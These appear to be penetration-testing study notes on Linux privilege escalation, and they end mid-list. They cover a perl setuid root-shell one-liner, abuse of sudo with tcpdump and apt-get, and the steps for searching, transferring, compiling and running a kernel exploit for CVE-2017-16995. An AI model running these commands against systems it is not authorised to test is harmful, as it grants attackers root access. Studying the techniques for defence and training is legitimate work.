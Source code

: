 	- ```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'```
	
- [Note] - capabilites, setuid, and setuid flag --> different places in Linux ELF file format

### Abusing Sudo

- **/etc/sudoer** 
	- custom configs of sudo-related permissions
- sudo -l
	- list allowed commands
- Example:
	- abusing ```/usr/sbin/tcpdump``` command
		- ```COMMAND='id'
			TF=$(mktemp)
			echo "$COMMAND" > $TF
			chmod +x $TF
			sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root```
	- investigate error
		- ```cat /var/log/syslog | grep tcpdum```
	- audit daemon logged privesc and blocked by AppArmor
	- AppArmor
		- kernel module provides MAC (mandatory access control)
	- view AppArmer status as the root
		- ```su - root```
		- ```aa-status```
	- abusing *apt-get* 
		- ```sudo apt-get changelog apt```

### Exploiting Kernel Vulnerabilites
- /etc/issue
- uname -r
- arch
- example:
	- ```searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"```
	- ```cp /usr/share/exploitdb/exploits/linux/local/45010.c .```
	- inspect compilation instructions
		- ```head 45010.c -n 20```
	- match naming
		- ```mv 45010.c cve-2017-16995.c```
	- transfer exploit
		- ```scp cve-2017-16995.c joe@192.168.123.216:```
	- compile exploit on tgt machine
		- ```gcc cve-2017-16995.c -o cve-2017-16995```
	- inspect Linux ELF file arch
		- ```file cve-2017-16995```
	- run exploit